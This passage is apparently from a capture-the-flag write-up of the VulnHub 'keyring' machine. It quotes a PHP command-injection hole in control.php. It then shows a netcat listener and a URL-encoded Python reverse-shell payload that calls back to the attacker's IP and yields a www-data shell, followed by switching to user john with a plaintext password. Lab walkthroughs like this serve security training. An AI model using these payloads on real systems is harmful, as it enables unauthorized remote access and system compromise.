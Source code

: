 ```shellscript
			}
		system($_GET['cmdcntr']); //system() function is not safe to use , dont' forget to remove it in production .
}
else
{
	header('Location: index.php');
}
?>
```

Analyzing `control.php`, I found a critical vulnerability: `system($_GET['cmdcntr']);`. This line directly executes system commands passed via the `cmdcntr` GET parameter without proper sanitization, leading to a Command Injection vulnerability.

I attempted to use this vulnerability to obtain a reverse shell. I set up a `netcat` listener on my attacking machine (192.168.1.5) on port 4444.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ nc -lnvp 4444
Listening on 0.0.0.0 4444
```

Then, I tried to trigger a Python reverse shell using `curl` with the `cmdcntr` parameter.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ curl 'http://192.168.1.37/control.php?cmdcntr=python3%20-c%20%27import%20os,pty,socket;s=socket.socket();s.connect((%22192.168.1.5%22,4444));[os.dup2(s.fileno(),f)for%20f%20in(0,1,2)];pty.spawn(%22/bin/bash%22)%27'
curl: (3) bad range in URL position 137:http://192.168.1.37/control.php?cmdcntr=python3%20-c%20%27import%20os,pty,socket;s=socket.socket();s.connect((%22192.168.1.5%22,4444));[os.dup2(s.fileno(),f)for%20f%20in(0,1,2)];pty.spawn(%22/bin/bash%22)%27
```

The `curl` command failed due to URL parsing issues with the single quotes. However, executing the same URL directly in a web browser successfully triggered the reverse shell.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.1.37 50472
www-data@keyring:/var/www/html$
```

I obtained a shell as the `www-data` user. I then navigated to the `/home` directory and found the `john` user.

```shellscript
www-data@keyring:/var/www/html$ cd /home
www-data@keyring:/home$ ls
john
www-data@keyring:/home$ su john
Password: Sup3r$S3cr3t$PasSW0RD
```
